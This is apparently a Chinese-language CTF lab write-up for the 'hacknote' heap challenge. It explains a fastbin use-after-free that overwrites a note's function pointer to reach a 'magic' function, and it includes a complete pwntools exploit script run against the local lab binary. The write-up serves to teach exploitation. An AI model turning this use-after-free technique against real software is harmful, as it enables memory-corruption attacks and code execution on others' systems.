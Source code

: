 > 可以通过设置标记变量(如我 exp 中的 11111111, 22222222 等)进行输入输出的定位

### lab10-hacknote

最简单的一种 fastbin uaf 利用，结构体中有函数指针，通过 uaf 控制该函数指针指向 magic 函数即可，uaf 的介绍可以看这个 [**slide**](https://github.com/M4xW4n9/slides/blob/master/pwn_heap/malloc-150821074656-lva1-app6891.pdf)

exp:

```python
lab10 [master●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

def debug():
    raw_input("DEBUG: ")
    gdb.attach(io)

io = process("./hacknote")
elf = ELF("./hacknote")
magic_elf = elf.symbols["magic"]


def addNote(size, content):
    io.sendafter("choice :", "1")
    io.sendafter("size ", str(size))
    io.sendafter("Content :", content)

def delNote(idx):
    #  debug()
    io.sendafter("choice :", "2")
    io.sendafter("Index :", str(idx))

def printNote(idx):
    #  debug()
    io.sendafter("choice :", "3")
    io.sendafter("Index :", str(idx))

def uaf():
    addNote(24, "a" * 24)
    addNote(24, "b" * 24)

    delNote(0)
    delNote(1)
    #  debug()
    addNote(8,p32(magic_elf))

    printNote(0)

if __name__ == "__main__":
    uaf()
    io.interactive()
    io.close()
```
